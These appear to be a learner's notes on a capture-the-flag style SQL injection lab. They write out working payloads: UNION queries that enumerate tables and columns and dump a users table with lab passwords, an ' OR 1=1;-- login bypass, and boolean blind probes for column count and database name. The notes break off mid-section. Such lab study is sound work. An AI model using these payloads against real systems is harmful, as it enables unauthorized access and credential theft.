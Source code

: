 by setting the id to an illegal number we make sure that our query’s reply is the only correct one and the one that is shown.

get tables:
`0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'`
group_concat() = makes string from table?
information_schema database every user has access to, information about all the databases and tables the user has access to
here we’re asking about tables in the sqli_one database

get columns:
`0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'`

We get id, username, password


(other uglier way to do this from burp room:
`/about/0 UNION ALL SELECT column_name,null,null,null,null FROM information_schema.columns WHERE table_name="people")`

get data:
`0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users`

We get:
`admin:p4ssword`
`martin:pa$$word`
`jim:work123`

Blind SQLi = no error info or such

SQL for login
select * from users where username='%username%' and password='%password%' LIMIT 1;

enter into password field: ' OR 1=1;--
makes the query
select * from users where username='' and password='' OR 1=1;
which is always true = bypassing login

#### Blind Boolean

https://website.thm/checkuser?username=admin
true
https://website.thm/checkuser?username=admin123
false

sql in the bg is: select * from users where username = '%username%' LIMIT 1;
just checking if the user exists

find the number of cols:
admin123' UNION SELECT 1;--
admin123' UNION SELECT 1,2;--
admin123' UNION SELECT 1,2,3;--      <- here we got a true again = 3 columns

find the db name:
admin123' UNION SELECT 1,2,3 where database() like '%';--
true as % is a wildcard matching everything
